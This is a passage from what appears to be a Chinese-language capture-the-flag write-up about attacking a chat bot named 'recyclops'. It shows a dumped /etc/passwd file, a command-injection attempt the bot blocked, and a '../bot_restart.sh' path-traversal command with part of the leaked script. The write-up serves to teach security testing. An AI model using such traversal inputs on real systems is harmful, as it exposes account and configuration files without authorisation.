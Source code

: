 ```
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd:x:998:996:User for polkitd:/:/sbin/nologin
geoclue:x:997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
rtkit:x:172:172:RealtimeKit:/proc:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
cockpit-ws:x:996:993:User for cockpit-ws:/:/sbin/nologin
pulse:x:171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
usbmuxd:x:113:113:usbmuxd user:/:/sbin/nologin
unbound:x:995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
gluster:x:994:989:GlusterFS daemons:/run/gluster:/sbin/nologin
chrony:x:993:987::/var/lib/chrony:/sbin/nologin
libstoragemgmt:x:992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
saslauth:x:991:76:Saslauthd user:/run/saslauthd:/sbin/nologin
dnsmasq:x:985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
radvd:x:75:75:radvd user:/:/sbin/nologin
clevis:x:984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
sssd:x:983:981:User for sssd:/:/sbin/nologin
colord:x:982:980:User for colord:/var/lib/colord:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
setroubleshoot:x:981:979::/var/lib/setroubleshoot:/sbin/nologin
pipewire:x:980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin
gdm:x:42:42::/var/lib/gdm:/sbin/nologin
gnome-initial-setup:x:979:977::/run/gnome-initial-setup/:/sbin/nologin
insights:x:978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
nginx:x:977:975:Nginx web server:/var/lib/nginx:/sbin/nologin
mongod:x:976:974:mongod:/var/lib/mongo:/bin/false
rocketchat:x:1001:1001::/home/rocketchat:/bin/bash
dwight:x:1004:1004::/home/dwight:/bin/bash
```

尝试命令注入,发现机器人返回`Stop injecting OS commands!`

`recyclops file ../bot_restart.sh`

```bash
#!/bin/bash

# Cleaning hubot's log so that it won't grow too large.
echo "" > /home/dwight/hubot/.hubot.log


# For starting the bot 20-ish (10+20) seconds late, when the server is restarted.
# This is because MongoDB and Rocket-Chat server needs some time to startup properly
sleep 10s

# Checks if Hubot is running every 10s
while [ 1 ]; 
do
sleep 20s
alive=$(/usr/sbin/ss -tulnp|grep 8000);
if  [[ -n $alive ]]; then
	err=$(grep -i 'unhandled-rejections=strict' /home/dwight/hubot/.hubot.log)
	if [[ -n $err ]]; then
		# Restarts bot
		echo "[-] Bot not running! `date`";
```